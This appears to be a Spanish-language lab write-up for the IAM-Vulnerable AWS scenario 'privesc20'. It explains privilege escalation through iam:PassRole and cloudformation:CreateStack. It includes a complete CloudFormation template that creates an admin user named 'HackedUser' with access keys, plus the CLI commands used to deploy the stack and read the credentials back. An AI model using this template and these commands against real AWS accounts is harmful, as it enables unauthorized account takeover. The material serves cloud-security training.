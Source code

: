 ```yaml
---
description: 'Lab: IAM-VULNERABLE'
---
```


# PassExistingRoleToCloudFormation

Un atacante con los permisos de <mark style="color:green;">**iam:PassRole**</mark> y <mark style="color:green;">**cloudformation:CreateStack**</mark> podría aumentar sus privilegios mediante la creación de una plantilla de CloudFormation que realizará acciones y creará recursos utilizando los permisos del rol que se pasó al crear una pila de CloudFormation

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc20
{% endembed %}

### Configuración inicial

Usuario del laboratorio: privesc20-PassExistingRoleToCloudFormation-user Con las siguientes políticas

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Y configurar las llaves de acceso con AWS CLI\


<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, tenemos que aprovechar del privilegio de <mark style="color:green;">**cloudformation:CreateStack**</mark> para crear un stack que tendrá lo necesario para escalar privilegios. Posteriormente, utilizaremos el permiso <mark style="color:green;">**cloudformation:DescribeStacks**</mark> para visualizar información relacionada al stack malicioso.&#x20;

No hay una serie de pasos específicos para escalar privilegios mediante el uso de CloudFormation. Ya que el atacante puede indicarle a CloudFormation que active cualquier recurso de AWS. En pocas palabras, se puede utilizar Cloudformation para escalar privilegios de diversas maneras como, por ejemplo, creando un nuevo usuario con permisos de administrador como se usa en el ejemplo a continuación.

Para este ejercicio se requiere de una plantilla para crear un usuario con privilegios de administrador:

{% code title="IAMCreateUserTemplate.json" overflow="wrap" %}
```json
{
  "Resources": {
    "HackedUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description" : "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": [
                "*"
              ],
              "Resource": "*"
            }
          ]
        },
        "Users": [{
          "Ref": "HackedUser"
        }]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "HackedUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": [
          "MyUserKeys",
          "SecretAccessKey"
        ]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}

```
{% endcode %}

Despues usando el comomando cloudformation create-stack se crea un stack con el parámetro --role para hace ruso de PassRole al servicio.

{% code overflow="wrap" %}
```
aws cloudformation create-stack --stack-name privesc --template-body file:///home/user/IAMCreateUserTemplate.json --role arn:aws:iam::ID_account:role/privesc-high-priv-service-role --capabilities CAPABILITY_IAM --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

En la evidencia previa, podemos apreciar el valor del StackId que fue retornado después de ejecutar el comando para crear el stack malicioso. Ahora que hemos creado nuestro stack malicioso, vamos aprovechar nuestro otro privilegio de cloudformation:DescribeStacks para visualizar el outputkey y posteriormente autenticarnos con estas credenciales.

{% code overflow="wrap" %}
```
aws cloudformation describe-stacks --stack-name arn:aws:cloudformation:us-east-1:ID_Account:stack/privesc --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (60) (1).png" alt=""><figcaption></figcaption></figure>

En la imagen se muestra la correcta creación del stack junto con las credenciales de acceso del usuario admin creado. se procede a utilizar esas llaves de acceso

<figure><img src="../../../../.gitbook/assets/image (61) (1).png" alt=""><figcaption></figcaption></figure>

Usando estas credenciales se listan las capacidades del usuario creado

<figure><img src="../../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

Como se observa, el usuario HackedUser, tiene políticas de full administrador, habiendo comprometido y escalado privilegios de manera correcta.



